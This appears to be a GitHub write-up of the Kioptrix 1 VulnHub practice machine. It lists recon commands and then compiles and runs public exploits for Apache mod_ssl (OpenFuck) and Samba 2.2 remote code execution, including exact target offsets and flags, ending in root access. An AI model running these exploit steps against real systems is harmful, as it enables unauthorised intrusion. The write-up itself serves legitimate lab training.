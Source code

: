 #Kioptrix 1 - VulnHub

**netdiscover -i eth0**

https://user-images.githubusercontent.com/15195048/95851963-4b32d000-0d53-11eb-801a-7851796a3b23.png

**IP 192.168.1.10**

**nmap -sC -sV 192.168.1.10**

https://user-images.githubusercontent.com/15195048/95851965-4c63fd00-0d53-11eb-9b2a-855be54df5ba.png

## 1. Exploiting Apache 

OpenSSH 2.9p2 (protocol 1.99)
Http mod_ssl/2.8.4
This module provides SSL v2/v3 and TLS v1 support for the Apache HTTP Server. 
Exploits: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow 

**searchsploit mod_ssl**

https://user-images.githubusercontent.com/15195048/95851966-4cfc9380-0d53-11eb-911e-2d0536d6b4b3.png
 
## A) ExploitDB 
Link:https://www.exploit-db.com/exploits/764
number of errors
FIX
https://medium.com/@snowshoe/how-to-compile-openfuckv2-c-69e457b4a1d1

## B) GITHUB

Link:https://github.com/exploit-inters/OpenFuck

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
git clone https://github.com/heltonWernik/OpenFuck.git
apt-get install python3.8-venv
apt-get install libssl-dev
gcc -o OpenFuck OpenFuck.c -lcrypto
./OpenFuck
./OpenFuck 0x6a 192.168.80.145 443 -c 40
error
./OpenFuck 0x6b 192.168.80.145 443 -c 40 works
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


https://user-images.githubusercontent.com/15195048/95851969-4cfc9380-0d53-11eb-98d4-8b7642f08530.png

## 2. Samba Exploit

** 1.enum4linux -a 192.168.1.10

2.smbclient 192.168.1.10 or smbclient -N -L \\192.168.1.10\\

3.nmap -p 139 --script=smb-vuln* 192.168.1.10

4.smbmap -P 139 -H 192.168.1.10 **

5.samba_version.py Github
https://github.com/amitn322/smb-version/blob/master/samba_version.py
python smb-version/samba_version.py -s 192.168.1.10

https://user-images.githubusercontent.com/15195048/95851970-4d952a00-0d53-11eb-9d2a-27844dc33287.png

Samba2.2
searchsploit samba 2.2

https://user-images.githubusercontent.com/15195048/95851974-4e2dc080-0d53-11eb-9467-a88125c91e68.png


Samba < 2.2.8 (Linux/BSD) - Remote Code Execution


https://user-images.githubusercontent.com/15195048/95851978-4ec65700-0d53-11eb-8007-ac8f11e13e5f.pnghttps://user-images.githubusercontent.com/15195048/95851983-4ec65700-0d53-11eb-98ea-370a424c4437.png

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
gcc 10.c
./a.out -b -o 192.168.1.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

https://user-images.githubusercontent.com/15195048/95851983-4ec65700-0d53-11eb-98ea-370a424c4437.png

Rooted
